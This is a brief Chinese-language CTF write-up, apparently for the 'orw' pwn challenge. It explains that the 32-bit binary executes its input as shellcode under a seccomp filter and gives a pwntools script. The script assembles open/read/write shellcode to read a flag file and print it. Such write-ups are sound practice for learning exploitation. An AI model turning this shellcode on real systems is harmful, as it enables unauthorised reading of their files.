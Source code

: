 checksec发现是32位

![image-20201218163532756](https://static.hack1s.fun/images/2021/02/06/image-20201218163532756.png)

直接输入shellcode，然后执行

![image-20201218163625301](https://static.hack1s.fun/images/2021/02/06/image-20201218163625301.png)

这个题目前面有一个`orw_seccomp`函数，这个函数内部比较重要

有一个之前没听过的概念



```python
from pwn import *

io = process('./orw')
elf = ELF('./orw')

payload = asm(shellcraft.open('flag'))
payload += asm(shellcraft.read(3,'esp',100))
payload += asm(shellcraft.write(1,'esp',100))

io.sendline(payload)
io.interactive()
```

